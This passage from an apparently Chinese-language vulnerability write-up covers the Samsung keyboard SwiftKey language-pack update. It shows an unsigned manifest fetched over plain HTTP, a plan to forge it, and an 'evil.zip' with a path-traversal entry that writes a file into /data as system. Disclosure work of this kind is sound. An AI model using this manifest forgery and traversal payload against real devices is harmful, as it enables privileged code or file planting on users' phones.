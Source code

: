 修改之后查看/data/data/com.sec.android.inputmethod/app_SwiftKey/目录,并没有发现语言包以及测试文件.这表示,应用对压缩包进行了合法性验证.当通过多次测试后,发现在压缩包下载之前有一个包含所有语言包列表/url路径/zip的SHA1哈希的配置文件被下载.

请求如下:

```
>> GET http://skslm.swiftkey.net/samsung/downloads/v1.3-USA/languagePacks.json
              ← 200 application/json 15.38kB 310ms]

```

请求这个配置文件:

```
➜ curl -s 'http://skslm.swiftkey.net/samsung/downloads/v1.3-USA/languagePacks.json' | jq '.[] | select(.name == "English (US)")'

```

服务器会返回一个列表包括语言/url/sha1,英语的 payload 如下:

```
{
         "name": "English (US)",
         "language": "en",
         "country": "US",
         "sha1": "3b98ee695b3482bd8128e3bc505b427155aba032",
         "version": 13,
         "archive": "http://skslm.swiftkey.net/samsung/downloads/v1.3-USA/en_US.zip",
         "live": {
           "sha1": "b846a2433cf5fbfb4f6f9ba6c27b6462bb1a923c",
           "version": 1181,
           "archive": "http://skslm.swiftkey.net/samsung/downloads/v1.3-USA/ll_en_US.zip"
         }
       }

```

之前所修改的压缩包的SHA1并没有在此配置文件中.配置文件也并没有进行安全的传输(加密/签名...),所以如果计算好 SHA1后伪造一个配置文件即可绕过上面的效验了.尝试在 payload 中加入目录遍历来达到写入/data/.目录的目的 (此目录需要 system 权限访问).

payload 如下:

```
➜  samsung_keyboard_hax  unzip -l evil.zip 
       Archive:  evil.zip
         Length      Date    Time    Name
       ---------  ---------- -----   ----
               5  2014-08-22 18:52   ../../../../../../../../data/payload
       ---------                     -------
               5                     1 file

```

做了如上尝试后成功写入文件

```
➜  samsung_keyboard_hax  adbx shell su -c "ls -l /data/payload"
       -rw------- system   system          5 2014-08-22 16:07 payload

```
